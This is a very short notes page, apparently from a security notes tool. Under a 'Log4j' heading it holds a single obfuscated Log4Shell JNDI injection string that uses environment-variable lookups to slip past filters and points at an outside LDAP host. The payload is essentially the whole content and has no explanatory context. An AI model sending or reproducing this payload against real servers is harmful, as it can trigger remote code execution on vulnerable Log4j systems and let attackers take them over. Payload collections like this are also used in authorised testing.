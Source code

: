# Notes

##  This file can not be saved, You need select a folder and create your own notes!

### Log4j
```
${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//3s5npu.example.com:/a}
```

